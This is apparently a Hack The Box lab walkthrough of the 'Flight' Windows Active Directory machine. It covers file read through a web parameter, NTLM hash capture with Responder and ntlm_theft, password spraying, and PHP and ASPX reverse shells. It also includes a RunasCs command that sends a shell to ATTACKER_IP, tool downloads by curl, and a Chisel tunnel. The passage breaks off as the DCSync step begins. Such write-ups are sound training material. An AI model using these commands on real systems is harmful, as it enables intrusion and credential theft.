This box is rated hard difficulty on HTB. It involves LFI, SMB relay, password spraying, uploading reverse shells, plenty of enumeration, port forwarding, and a DCSync attack to top it off. This is one of my favorite AD machines and I recommend trying it yourself before reading any spoilers.

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP just returns the typical expected services for AD.

```
$ sudo nmap -sCV 10.129.228.120 -oN fullscan-tcp
[sudo] password for cbev: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-01 18:42 CST
Nmap scan report for 10.129.228.120
Host is up (0.058s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-02 07:42:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-02T07:42:23
|_  start_date: N/A
|_clock-skew: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.77 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is leaking the domain of `flight.htb`, so I'll add that to my `/etc/hosts` file. 

As there is a web server on port 80, I will fire up Gobuster to find subdirectories/subdomains for the website in the background before moving on. Testing for Anonymous and Guest authentication over SMB and RPC show that both are disabled, meaning we don't have a great way to enumerate users just yet.



Another interesting thing is that it's running Apache with PHP instead of the usual Microsoft IIS server, so I'll fuzz for common PHP pages as well. Checking out the landing page on port 80 shows an entirely static website for an airliner with dead links everywhere. No accessible directories or anything in the source code either, so I can safely rule out this site.



My scans return a school subdomain for the site which also seems pretty barren, except for one part.

```
$ ffuf -u http://10.129.228.120 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.flight.htb" --fs 7069

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.228.120
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.flight.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7069
________________________________________________

school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 56ms]
:: Progress: [114442/114442] :: Job [1/1] :: 415 req/sec :: Duration: [0:04:34] :: Errors: 0 ::
```

## Arbitrary File Read
This page is also mostly static except for the header tabs that reveal that the page loads different HTML through a view parameter in the index page. This website structure is notorious for path traversal and LFI, so let's test it out with a few simple payloads.



Attempting to navigate up one directory to proc an error on the page shows that the site has prepared for this and has blocked us. Single and even double URL-encoding the forward slashes doesn't work to bypass this filter.



Next, I tried including the `index.php` page itself in hopes that we would be able to figure out how the page accepts input or if it's blacklisting any bad characters. Luckily we don't get an error for re-inclusion, but the full source code which shows a few interesting things.

First, the view parameter is blacklisting path traversal characters, so we won't be able to get around the system that way. The second is that it simply performs `$_GET` to read the file contents and doesn't filter anything there. Lastly, we can see the full file path to the `home.html` page which discloses where we are in the filesystem.



So path traversal doesn't work since supplying `..` or `\\` in our URL will get blocked, but maybe we can just specify the full path to the file like it shows within the source code. Windows will still accept forward slashes when providing file paths and by including a known page, we can confirm that this parameter is vulnerable to arbitrary file reads.



Next, I want to figure out if this will reach out to remote machines in order to read them too. We know that the site uses `file_get_contents` to display what's inside of them so getting a shell via PHP code will not be possible.



Alright, that works to display our text file which shows that the HTTP protocol works. If we have it try to reach an attacker-owned SMB server, it will attempt to authenticate beforehand and we'll be able to grab an NTLM hash for whoever's running the server.

Let's give it a shot. I setup a Responder server over my VPN connection and then specify a fake share along with my IP in the view parameter.

```
sudo Responder -I tun0
```



## Password Reuse
I send that hash over to JohnTheRipper in order to get the plaintext version, then use it to authenticate over SMB. Since as we have valid credentials now, I'll brute force RIDs to get a list of valid usernames on the box and check if the recovered password was reused or a default for the domain.



```
#Saving RID brute force output to file
nxc smb flight.htb -u 'svc_apache' -p 'REDACTED' --rid-brute > users.txt

#Extracting names from the file
sed -n 's/.*\\\([^ ]*\).*/\1/p' users.txt > validnames.txt
```

Spraying that password against that list returns a successful result for the `S.Moon` user.



## Stealing NTLM Hashes
WinRM access for that account is disabled, however they do have quite a few permissions for SMB shares. Nothing of importance was inside of these, but the fact that we could write to 'Shared' could be useful. Since there were no login pages or other sensitive services to authenticate to using these credentials, this share was the only thing to go off of.



Judging by the name of it as well as the Users share, we can infer that other accounts may access this in order to read content or store their own files on it. We can perform a similar attack to the remote file read vulnerability earlier by forcing users that open a file that will load an external resource on our machine, therefore authenticating over SMB.

In case you're unfamiliar with this vector - NTLM hash theft occurs when an attacker tricks a Windows system into automatically sending its NTLM authentication hash to a remote server. This is often done using malicious documents (e.g., Word or PDF files) that reference external resources like UNC paths. Once captured, the hash can be cracked or relayed to authenticate as the victim without knowing their password.

For this step, I'll be using a tool aptly named [NTLM_Theft](https://github.com/Greenwolf/ntlm_theft) which works to create a myriad of different filetypes that will all authenticate back to our Responder server. I'm not too keen on trying out filetypes to see which ones are allowed, so I'll create and upload all of them.

```
#Cloning Git repository
git clone https://github.com/Greenwolf/ntlm_theft

#Changing directory into repo
cd ntlm_theft

#Generating all malicious files
python3 ntlm_theft.py -s [ATTACKER_IP] -f pwn -g all
```

Many are blocked but a few do make it through. After setting up the Responder server and waiting a minute, we get a hit back from the user `C.Bum`.



Sending that hash over to JohnTheRipper to get a plaintext variant works and I repeat enumeration for this user.



## Reverse Shell over SMB Share
Looks like this person has write access to the Web share this time which contains all files for both of the site's virtual hosts. I'll repeat the earlier steps to steal NTLM hashes for good measure, but we should just be able to upload a PHP reverse shell to a public directory on one of the site's to get terminal access as `svc_apache`.

Past enumeration revealed that the `/images` directory under the school subdomain didn't respond with a `403 Forbidden` code, so I'll upload mine in there.



Navigating to it after a successful upload on SMB and setting up a Netcat listener grants us a shell as the Apache service on the system.



## Privilege Escalation
With a proper shell on the box, we can start internal enumeration to look for routes to escalate privileges. Checking the users directory shows that `C.Bum` is the only other user on the box besides Administrator. Since he had access to change the website's files, I'm going to assume that he's the developer and we may need to pivot to his account before going further.

There weren't many interesting things on the filesystem except for one particular directory. `C:\Inetpub` is the default directory for Microsoft IIS server to run out of, but the only sites that we could reach were Apache, which intrigued me. Checking inside of the folder revealed a development directory that held some standard JS, CSS, and HTML files. Using icacls shows that `C.Bum` has write permissions to this directory which may be our key to root if there happens to be some kind of insecure script backing it up.



### Pivoting with RunasCs
Problem is, we still don't have a shell as `C.Bum` even though we know his credentials since he isn't apart of the Remote Users group. I recently discovered a utility named [RunasCs](https://github.com/antonioCoco/RunasCs) that will let us run certain processes  as other users if given valid credentials. It's an upgraded version of the built-in `runas.exe` that also solves many prior issues with just using that one.

You can upload this to the box via an HTTP server or the Web SMB share. I'll have it run `cmd.exe` as `C.Bum` while also redirecting stdin/stdout to my attacking machine for a makeshift shell.

```
#Uploading RunasCs.exe to C:\Temp
curl http://ATTACKER_IP/RunasCs.exe -o r.exe

#Using utility to run cmd.exe as C.Bum and redirecting stdin/stdout to local machine
.\r.exe C.Bum [REDACTED] -r ATTACKER_IP:9004 cmd
```



### ASPX Shell via Internal Web Server
At this point, we can grab the user flag under his Desktop directory and start investigating the development website. Listing all ports that are listening for TCP on the system gives us quite a lot of output, but we're looking for anything that may be running internally and wasn't reachable during initial enumeration.



Port 8000 stands out to me as it's typically used to host development sites before pushing to production, and the fact that it didn't show up in our Nmap scans. I'll upload [Chisel](https://github.com/jpillora/chisel) in order to reach it from my local machine. 

_Note: Make sure you upload the correct framework to the box (ie. Windows x64) or else you're going to be stuck wondering why the linux_amd install isn't executing._

```
#Uploading Chisel to remote machine
curl http://ATTACKER_IP/chisel -o chisel.exe

#Setting up Chisel server on local machine in reverse mode
./chisel server -p 8000 --reverse

#Executing Chisel on remote machine to create tunnel
.\chisel.exe client ATTACKER_IP:8000 R:4567:127.0.0.1:8000
```

Once that's taken care of, we can reach the site with our browser on localhost. This shows yet another static page for booking flights with the airline.



It doesn't really matter if this site is vulnerable as we already figured out that have access to write to the development directory. Using the shell as `C.Bum`, we can write an `.aspx` reverse shell (default for IIS) to a reachable directory and pivot to whomever is running this service. I grab a PoC from this [Github repository](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) and upload it over SMB as there's not really a neat way to copy/paste it to our shell.



After setting up a listener and navigating to the file on the website, we are granted a shell as `defaultapppool`.



### DCSync Attack
Our current account is a Microsoft Virtual Account, meaning that if it were to attempt to authenticate over a network, it has no choice other than to fall back to the computer account. In our case it's named `G0$`, however these machine accounts aren't meant to be accessed by people and therefore have incredibly long and complex passwords, so we won't be able to crack it after an SMB relay attack. 

